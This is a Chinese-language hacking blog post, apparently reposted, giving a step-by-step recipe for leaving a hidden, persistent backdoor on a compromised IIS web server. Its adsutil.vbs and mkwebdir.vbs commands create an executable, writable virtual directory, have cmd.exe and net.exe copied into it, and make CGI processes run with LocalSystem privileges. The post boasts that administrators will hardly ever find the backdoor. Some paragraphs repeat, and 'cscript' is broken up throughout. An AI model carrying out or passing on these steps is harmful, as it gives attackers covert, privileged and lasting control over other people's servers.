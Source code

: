 ```yaml
---
layout: post
category: binghe-code-hack
title: 真正的IIS永远的后门解密
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: 真正的IIS永远的后门解密
lock: need
---
```


# 真正的IIS永远的后门解密

IIS是比较流行的www服务器，设置不当漏洞就很多。入侵iis服务器后留下后门，以后就可以随时控制。一般的后门程序都是打开一个特殊的端口来监听，比如有nc,ntlm,rnc等等都是以一种类telnet的方式在服务器端监听远程的连接控制。

IIS是比较流行的www服务器，设置不当漏洞就很多。入侵iis服务器后留下后门，以后就可以随时控制。一般的后门程序都是打开一个特殊的端口来监听，比如有nc,ntlm,rnc等等都是以一种类telnet的方式在服务器端监听远程的连接控制。不过一个比较防范严密的www站点（他们的管理员吃了苦头后）一般通过防火墙对端口进行限制，这样除了管理员开的端口外，其他端口就不能连接了。但是80端口是不可能关闭的（如果管理员没有吃错药）。那么我们可以通过在80端口留后门，来开启永远的后门。

当IIS启动CGI应用程序时，缺省用CreateProcessAsUser API来创建该CGI的新Process,该程序的安全上下文就由启动该CGI的用户决定。一般匿名用户都映射到IUSR_computername这个账号，当然可以由管理员改为其他的用户。或者由浏览器提供一个合法的用户。两者的用户的权限都是比较低，可能都属于guest组的成员。其实我们可以修改iis开启CGI的方式，来提高权限。我们来看iis主进程本身是运行在localsystem账号下的，所以我们就可以得到最高localsystem的权限。

入侵web服务器后，一般都可以绑定一个cmd到一个端口来远程控制该服务器。这时可以有GUI的远程控制，比如338Array，或者类telnet text方式的控制，比如rnc。nc肯定是可以用的,其实这也足够了。

1. telnet到服务器

2.cs cript.exe adsutil.vbs enum w3svc/1/root

```bash
KeyType : (STRING) "IIsWebVirtualDir"
AppRoot : (STRING) "/LM/W3SVC/1/ROOT"
AppFriendlyName : (STRING) "默认应用程序"
AppIsolated : (INTEGER) 2
AccessRead : (BOOLEAN) True
AccessWrite : (BOOLEAN) False
AccessExecute : (BOOLEAN) False
Accesss cript : (BOOLEAN) True
AccessSource : (BOOLEAN) False
AccessNoRemoteRead : (BOOLEAN) False
AccessNoRemoteWrite : (BOOLEAN) False
AccessNoRemoteExecute : (BOOLEAN) False
AccessNoRemotes cript : (BOOLEAN) False
HttpErrors : (LIST) (32 Items)
"400,*,FILE,C:\WINNT\help\iisHelp\common\400.htm"
"401,1,FILE,C:\WINNT\help\iisHelp\common\401-1.htm"
"401,2,FILE,C:\WINNT\help\iisHelp\common\401-2.htm"
"401,3,FILE,C:\WINNT\help\iisHelp\common\401-3.htm"
"401,4,FILE,C:\WINNT\help\iisHelp\common\401-4.htm"
"401,5,FILE,C:\WINNT\help\iisHelp\common\401-5.htm"
"403,1,FILE,C:\WINNT\help\iisHelp\common\403-1.htm"
"403,2,FILE,C:\WINNT\help\iisHelp\common\403-2.htm"
"403,3,FILE,C:\WINNT\help\iisHelp\common\403-3.htm"
"403,4,FILE,C:\WINNT\help\iisHelp\common\403-4.htm"
"403,5,FILE,C:\WINNT\help\iisHelp\common\403-5.htm"
"403,6,FILE,C:\WINNT\help\iisHelp\common\403-6.htm"
"403,7,FILE,C:\WINNT\help\iisHelp\common\403-7.htm"
"403,8,FILE,C:\WINNT\help\iisHelp\common\403-8.htm"
"403,9,FILE,C:\WINNT\help\iisHelp\common\403-9.htm"
"403,10,FILE,C:\WINNT\help\iisHelp\common\403-10.htm"
"403,11,FILE,C:\WINNT\help\iisHelp\common\403-11.htm"
"403,12,FILE,C:\WINNT\help\iisHelp\common\403-12.htm"
"403,13,FILE,C:\WINNT\help\iisHelp\common\403-13.htm"
"403,15,FILE,C:\WINNT\help\iisHelp\common\403-15.htm"
"403,16,FILE,C:\WINNT\help\iisHelp\common\403-16.htm"
"403,17,FILE,C:\WINNT\help\iisHelp\common\403-17.htm"
"404,*,FILE,C:\WINNT\help\iisHelp\common\404b.htm"
"405,*,FILE,C:\WINNT\help\iisHelp\common\405.htm"
"406,*,FILE,C:\WINNT\help\iisHelp\common\406.htm"
"407,*,FILE,C:\WINNT\help\iisHelp\common\407.htm"
"412,*,FILE,C:\WINNT\help\iisHelp\common\412.htm"
"414,*,FILE,C:\WINNT\help\iisHelp\common\414.htm"
"500,12,FILE,C:\WINNT\help\iisHelp\common\500-12.htm"
"500,13,FILE,C:\WINNT\help\iisHelp\common\500-13.htm"
"500,15,FILE,C:\WINNT\help\iisHelp\common\500-15.htm"
"500,100,URL,/iisHelp/common/500-100.asp"

FrontPageWeb : (BOOLEAN) True
Path : (STRING) "c:\inetpub\wwwroot"
AccessFlags : (INTEGER) 513
[/w3svc/1/root/localstart.asp]
[/w3svc/1/root/_vti_pvt]
[/w3svc/1/root/_vti_log]
[/w3svc/1/root/_private]
[/w3svc/1/root/_vti_txt]
[/w3svc/1/root/_vti_s cript]
[/w3svc/1/root/_vti_cnf]
[/w3svc/1/root/_vti_bin]
```

不要告诉我你不知道上面的输出是什么！！！！
现在我们心里已经有底了，是不是！呵呵 管理员要倒霉了

3. mkdir c:\inetpub\wwwroot\dir1
4. cs cript.exe mkwebdir.vbs -c MyComputer -w "Default Web Site" -v "Virtual Dir1","c:\inetpub\wwwroot\dir1"

这样就建好了一个虚目录：Virtual Dir1
你可以用 1 的命令看一下

这样就建好了一个虚目录：Virtual Dir1
你可以用 1 的命令看一下

5.接下来要改变一下Virtual Dir1的属性为execute

```bash
cs cript.exe adsutil.vbs set w3svc/1/root/Virtual Dir1/accesswrite "true" -s:
cs cript.exe adsutil.vbs set w3svc/1/root/Virtual Dir1/accessexecute "true" -s:
```

现在你已经可以upload 内容到该目录，并且可以运行。你也可以把cmd.exe net.exe直接拷贝到虚拟目录的磁盘目录中。

现在你已经可以upload 内容到该目录，并且可以运行。你也可以把cmd.exe net.exe直接拷贝到虚拟目录的磁盘目录中。

6.以下命令通过修改iis metabase 来迫使iis以本身的安全环境来创建新的CGI process

```bash
Cs cript adsutil.vbs set /w3svc/1/root/[your directory]/createprocessasuser false
注释：cs cript windows s cript host.
adsutil.vbs windows iis administration s cript
```

后面是 iis metabase path
这样的后门几乎是无法查出来的，除非把所有的虚目录察看一遍（如果管理员写好了遗书，那他就去查吧）

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
